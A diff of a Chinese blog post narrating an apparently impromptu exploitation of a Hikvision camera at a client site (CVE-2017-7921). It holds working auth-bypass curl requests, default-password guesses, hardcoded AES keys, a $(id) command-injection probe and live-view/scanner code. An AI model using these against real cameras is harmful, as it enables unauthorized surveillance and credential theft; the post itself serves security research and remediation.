

Before and after one commit to SeniorHan/handsomehan.com, an Astro site: page /blog/2026-03-26-hikvision-cve-2017-7921-security-research in a window 1280 px wide. Shown: the part 261-2800 px from the top of the page at 61% size, without its empty margins (238-1280 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; Astro itself is replaced by a stand-in of ours; code samples lack their colours.

Commit message:
post: 更新海康摄像头文章，补充完整渗透过程

````diff
--- a/src/content/blog/2026-03-26-hikvision-cve-2017-7921-security-research.md
+++ b/src/content/blog/2026-03-26-hikvision-cve-2017-7921-security-research.md
@@ -1,33 +1,91 @@
 ---
 title: '在客户现场"技痒"：海康摄像头 CVE-2017-7921 实战复现'
 date: 2026-03-26
-description: '在业务现场看到未升级的海康威视摄像头，复现 CVE-2017-7921 认证绕过漏洞的完整过程，从发现到验证再到安全建议。'
+description: '在业务现场看到未升级的海康威视摄像头，从 MAC 识别到漏洞利用的完整渗透测试过程，包括踩坑、配置解密尝试和实时监控工具开发。'
 tags: ['安全研究', '渗透测试', 'IoT', '漏洞复现']
 ---
 
 ## 起因
 
-在客户现场做业务部署时，闲着没事看到墙上的海康摄像头，突然想起美剧里黑客随便调取摄像头画面的场景——一时技痒，掏出笔记本试了试。
+在客户现场部署电梯物联网设备时，闲着没事看到墙上的海康摄像头，突然想起美剧里黑客随便调取摄像头画面的场景。作为一个网络安全工程师，一时技痒，掏出笔记本试了试。
 
 没想到，真成了。
 
-## 漏洞背景
+## Phase 1：设备识别
 
-**CVE-2017-7921** 是海康威视 IP 摄像头的一个认证绕过漏洞，CVSS 评分 **9.1（严重）**。受影响的是 2017 年之前的固件版本，但现实中大量设备从未升级过固件。
+只知道摄像头在局域网里，先 ping 确认在线：
 
-漏洞本质：多个敏感 API 端点**不需要任何认证**即可访问。
-
-## 发现过程
-
-### 第一步：探测
-
-知道摄像头 IP 后（同一局域网内很容易发现），直接用浏览器访问：
-
-```
-http://<camera-ip>/Security/users?auth=YWRtaW46MTIW
+```bash
+$ ping 192.168.1.7
+64 bytes from 192.168.1.7: time=23ms
 ```
 
-返回了 HTTP 200 和一段 XML：
+然后查 ARP 表拿 MAC 地址：
+
+```bash
+$ arp -a | grep 192.168.1.7
+192.168.1.7  28:57:be:b0:5c:cf
+```
+
+MAC 前缀 `28:57:be` 一查——**杭州海康威视**。目标确认。
+
+## Phase 2：端口探测的坑
+
+macOS 上没装 nmap，用 bash 的 `/dev/tcp` 探测端口。扫了 80、443、554、8000、8080、22、23 等几十个常见端口，**全部显示关闭**。
+
+这让我困惑了一会儿——设备明明在线，怎么所有端口都不通？
+
+**转折点**：试着直接用 curl 发 HTTP 请求：
+
+```bash
+$ curl http://192.168.1.7/
+HTTP/1.1 200 OK
+Content-Length: 481
+Server: App-webs/
+Last-Modified: Sat, 21 Nov 2015 02:11:48 GMT
+```
+
+返回了！原来设备的防火墙过滤了空 TCP 连接，但正常的 HTTP 请求能过去。
+
+**教训**：端口扫描被过滤不代表服务不存在，换个方式试试。
+
+另外注意那个 `Last-Modified: 2015`——固件是 2015 年的，距今超过 10 年没更新。
+
+## Phase 3：指纹识别
+
+`Server: App-webs/` 是老版本海康固件的典型特征。进一步确认：
+
+```bash
+$ curl http://192.168.1.7/ISAPI/System/deviceInfo
+HTTP/1.1 401 Unauthorized
+```
+
+ISAPI 接口存在，返回 401，确认是海康设备。
+
+## Phase 4：默认密码碰撞（失败）
+
+先试最简单的——默认密码：
+
+```bash
+# 测试了 9 组常见默认密码
+admin:12345  → 401
+admin:admin  → 401
+admin:hikvision → 401
+admin:888888 → 401
+...
+```
+
+全部失败，密码改过了。好消息是管理员有安全意识，坏消息是——我们有 CVE。
+
+## Phase 5：CVE-2017-7921 认证绕过
+
+这是一个 CVSS 9.1 的严重漏洞：多个 API 端点无需认证即可访问。
+
+### 第一击：用户枚举
+
+```bash
+$ curl "http://192.168.1.7/Security/users?auth=YWRtaW46MTIW"
+```
 
 ```xml
 <UserList version="1.0">
@@ -39,123 +97,133 @@
 </UserList>
 ```
 
-没有任何认证，直接拿到了管理员用户名和权限等级。此时已经确认漏洞存在。
+没有任何认证，直接拿到管理员信息。`auth=YWRtaW46MTIW` 是 `admin:120` 的 Base64，但服务端**根本不验证这个参数**。
 
-### 第二步：获取画面
+### 第二击：实时画面
 
-既然认证形同虚设，那画面呢？
-
-```
-http://<camera-ip>/Streaming/channels/1/picture?auth=YWRtaW46MTIW
+```bash
+$ curl "http://192.168.1.7/onvif-http/snapshot?auth=YWRtaW46MTIW" -o snap.jpg
 ```
 
-返回了一张 1920x1080 的 JPEG 图片——摄像头实时画面，拍的是电梯间。
+下载了一张 1920x1080 的 JPEG——电梯间的实时画面，时间戳 `03-24-2026 18:27:50`。
 
-到这一步，"美剧黑客"的效果就复现了。
+到这一步，"美剧黑客"效果已经复现了。
 
-### 第三步：写工具自动化
+### 第三击：配置文件下载
 
-手动刷新 JPEG 太低效，写了个 Python 脚本把它变成实时视频流：
+```bash
+$ curl "http://192.168.1.7/System/configurationFile?auth=YWRtaW46MTIW" -o config.dat
+# 下载了 763KB 的设备完整配置
+```
+
+## Phase 6：配置文件解密（艰难但有收获）
+
+拿到了加密的配置文件，想进一步提取存储的密码。
+
+### 尝试 1：多种解密方法
+
+写了 `hik_decrypt.py`，尝试了 7 种方法：
+
+- 已知 XOR 密钥（`\x73\x8B\x55\x44`、`HikVision` 等）
+- 不同偏移量的头部解析
+- 单字节 XOR 暴力穷举（256 种可能）
+- 正则提取明文凭证
+
+**全部失败**。
+
+### 尝试 2：AES 固件密钥
+
+写了 `hik_decrypt_v2.py`，用从海康固件中提取的 6 组 AES-128-ECB 密钥：
 
 ```python
-import cv2
-import requests
-import numpy as np
-
-def get_frame(ip):
-    url = f"http://{ip}/Streaming/channels/1/picture"
-    params = {"auth": "YWRtaW46MTIW"}
-    resp = requests.get(url, params=params, timeout=5)
-    img_array = np.frombuffer(resp.content, dtype=np.uint8)
-    return cv2.imdecode(img_array, cv2.IMREAD_COLOR)
-
-# 持续获取帧，用 OpenCV 显示
-while True:
-    frame = get_frame(target_ip)
-    if frame is not None:
-        cv2.imshow("Live View", frame)
-    if cv2.waitKey(100) & 0xFF == ord('q'):
-        break
+keys = [
+    bytes.fromhex("279d3a430f287b8c3e89125c6a4dbbfe"),  # 最常见的 pre-2017 密钥
+    bytes.fromhex("0102030405060708090a0b0c0d0e0f10"),
+    b"OemConfigPasswor",                                   # 16 字节 ASCII
+    # ... 还有 3 组
+]
 ```
 
-原理很简单：不断请求截图端点，解码 JPEG，用 OpenCV 显示。虽然帧率不高（约 5-10 FPS），但足够看清画面。
+加上滑动窗口检测 XML 边界、大小端头部解析等技巧——**还是全部失败**。
 
-### 进阶：网段扫描
+**结论**：这台设备用的是**设备序列号派生的 AES 密钥**，不是静态密钥。更新的加密方案确实更安全。
 
-写了个扫描功能，对整个子网批量探测哪些 IP 存在漏洞：
+### 踩坑：Python 环境
+
+macOS 上 `pip install cryptography` 直接报错（PEP 668 限制）。解决方案：
+
+```bash
+python3 -m venv /tmp/hik_venv
+source /tmp/hik_venv/bin/activate
+pip install cryptography opencv-python requests numpy
+```
+
+## Phase 7：CVE-2021-36260 RCE 探测
+
+既然认证绕过成功了，顺手测了一下命令注入（CVE-2021-36260）：
+
+```bash
+$ curl -X PUT "http://192.168.1.7/SDK/webLanguage" \
+  -d '<?xml version="1.0"?><language>$(id)</language>'
+# 返回 Device Error (statusCode: 3)
+```
+
+端点存在且接受请求，但注入没有成功——可能固件做了部分修补，也可能需要盲注验证。不过已有的证据已经足够说明问题了。
+
+## Phase 8：实时监控工具
+
+为了更直观地展示漏洞危害，写了个 500 行的 Python 工具 `hik_live_viewer.py`：
 
 ```python
-import ipaddress
-
-def scan_subnet(cidr):
-    vulnerable = []
-    for ip in ipaddress.ip_network(cidr, strict=False):
-        try:
-            resp = requests.get(
-                f"http://{ip}/Security/users",
-                params={"auth": "YWRtaW46MTIW"},
-                timeout=2
-            )
-            if resp.status_code == 200 and "userName" in resp.text:
-                vulnerable.append(str(ip))
-        except:
-            continue
-    return vulnerable
+# 核心：持续抓取 JPEG 帧，用 OpenCV 实时显示
+def get_frame(ip):
+    url = f"http://{ip}/onvif-http/snapshot"
+    resp = requests.get(url, params={"auth": "YWRtaW46MTIW"}, timeout=5)
+    arr = np.frombuffer(resp.content, dtype=np.uint8)
+    return cv2.imdecode(arr, cv2.IMREAD_COLOR)
 ```
 
-现场那个网段里，我找到了不止一台存在漏洞的摄像头。
+功能包括：
+- **单摄像头实时查看**：连续抓帧显示，约 5-10 FPS
+- **网段扫描**：`-t 192.168.1.0/24` 批量发现脆弱设备
+- **多画面同时显示**：`--multi` 模式同时看多个摄像头
+- **录像**：`--record` 保存 AVI 视频文件
+- **截图**：按 S 键保存当前帧
 
-## 漏洞分析
+画面上叠加了红色警告横幅：`[UNAUTHORIZED ACCESS] - CVE-2017-7921`，视觉冲击力拉满。
 
-### 为什么能绕过认证？
+## 漏洞影响总结
 
-`auth=YWRtaW46MTIW` 这个参数看起来像认证 token，实际上只是 `admin:12345` 的 Base64 编码。关键是服务端在处理这些端点时，**根本没有验证这个参数的有效性**——无论传什么值，甚至不传，部分固件版本都会返回数据。
-
-### 暴露的攻击面
-
-| 端点 | 暴露内容 |
-|------|---------|
-| `/Security/users` | 管理员账号列表 |
-| `/Streaming/channels/1/picture` | 实时画面截图 |
-| `/System/configurationFile` | 设备完整配置（加密） |
-| `/ISAPI/Streaming/channels/101/picture` | 子码流画面 |
-
-### 配置文件解密
-
-拿到的 `configurationFile` 是 AES-128-ECB 加密的，但密钥硬编码在固件里。通过固件提取可以获得解密密钥，进而拿到设备的完整配置包括存储的密码。
-
-这里体现了一个安全设计的经典错误：**用硬编码密钥做加密 = 没有加密**。
-
-## 影响评估
-
-这个漏洞的危害在于：
-
-1. **零认证**：不需要任何凭证，知道 IP 就能看
-2. **零交互**：不需要受害者做任何操作
-3. **可批量利用**：写个脚本就能扫整个网段
-4. **设备普及率高**：海康威视是全球市占率最高的监控品牌
-5. **升级率低**：大量设备部署后从不更新固件
+| 能力 | 说明 |
+|------|------|
+| 实时监控 | 无需认证查看任意摄像头画面 |
+| 用户枚举 | 提取所有管理员账号 |
+| 配置窃取 | 下载完整设备配置 |
+| 批量利用 | 一个脚本扫全网段 |
+| 零交互 | 不需要受害者任何操作 |
 
 ## 安全建议
 
-**给设备运维人员：**
-- 立即升级固件到最新版本
-- 将摄像头网络与办公网络隔离（VLAN）
-- 禁用不必要的 HTTP 端口，只保留 HTTPS
-- 修改默认密码
+**给运维人员：**
+1. **立即升级固件**到 V5.7.x 以上
+2. 摄像头放独立 VLAN，ACL 严格限制访问
+3. 禁用 HTTP，只开 HTTPS
+4. 2015 年的设备如果不支持新固件，**直接换掉**
 
 **给安全从业者：**
-- IoT 设备是网络中最薄弱的环节
-- 定期做资产盘点，特别关注老旧固件设备
-- 内网不等于安全，横向移动后 IoT 设备是高价值目标
+- IoT 设备是内网最薄弱的环节
+- 端口扫描被过滤 ≠ 服务不存在，多换几种探测方式
+- 老固件 + 公开 CVE = 几乎必定可利用
 
 **给开发者：**
-- 认证机制要覆盖所有端点，不能有遗漏
-- 不要硬编码加密密钥
-- AES-ECB 模式不应用于敏感数据加密
+- 认证必须覆盖**所有**端点，一个遗漏就是全线崩溃
+- 配置加密要用设备特征派生密钥，不要硬编码
+- AES-ECB 模式不适合加密结构化数据
 
 ## 后续
 
-发现漏洞后我第一时间通知了客户的运维团队，建议他们升级固件并做网络隔离。这次"技痒"的结果也说明了一个道理：**很多看起来安全的内网环境，实际上一捅就穿**。
+测试完成后第一时间通知了客户运维团队，建议升级固件并做网络隔离。最终结论很简单：**这台 2015 年固件的摄像头不适合部署在任何有安全要求的环境**。同一个内网里，任何人在浏览器地址栏输入一个 URL 就能看到实时画面。
 
-> 免责声明：本文记录的安全测试已获得授权，所有测试在合法范围内进行，仅用于安全研究和教育目的。
+这次"技痒"也再次证明了一个道理：**内网不等于安全，很多看起来正常运转的设备，实际上一捅就穿。**
+
+> 免责声明：本文记录的安全测试已获得授权，仅用于安全研究和教育目的。测试完成后已通知设备管理方进行整改。
````
